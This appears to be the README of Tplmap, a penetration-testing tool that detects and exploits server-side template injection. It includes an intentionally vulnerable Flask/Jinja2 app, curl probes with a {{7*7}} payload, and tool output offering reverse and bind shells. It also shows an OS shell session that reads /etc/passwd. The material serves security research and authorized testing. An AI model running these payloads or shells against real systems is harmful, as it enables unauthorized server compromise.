Tplmap
======

Tplmap automates the detection and exploitation of Code Injection and Server-Side Template Injection vulnerabilities and sandbox escape techniques to get access to the underlying operating system.

The tool and its test suite are developed to research the SSTI vulnerability class and to be used as offensive security tool during web application penetration tests.

The sandbox break-out techniques came from James Kett's [Server-Side Template Injection: RCE For The Modern Web App][10] and other public researches [\[1\]][1] [\[2\]][2] and original works to extend this tool capabilities [\[3\]][3] [\[4\]][4].

It fully compromises the server exploiting several code context and blind injection scenarios. It supports _eval()_-like code injections in Python, Ruby, PHP, Java and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][12] that uses [Jinja2][11] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    # The vulnerability is introduced concatenating the
    # user-provided `name` variable to the template string.
    output = Jinja2.from_string('Hello ' + name + '!').render()
    
    # Instead, the variable should be passed to the template context.
    # Jinja2.from_string('Hello {{name}}!').render(name = name)

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap supports over 15 template engines, unsandboxed template engines and generic _eval()_-like injections.

| Template engine        | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|------------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                   | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (code eval)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Tornado                | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks               | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                   | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (code eval) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓        | JavaScript      |  ✓        |  ✓         |
| Ruby (code eval)       | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Slim                   | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| ERB                    | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Smarty (unsecured)     | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (code eval)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity               | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                   | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)       | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0) | × | ×          | ×               | ×         | ×          |

[10]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[11]: http://jinja.pocoo.org/
[12]: http://flask.pocoo.org/
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
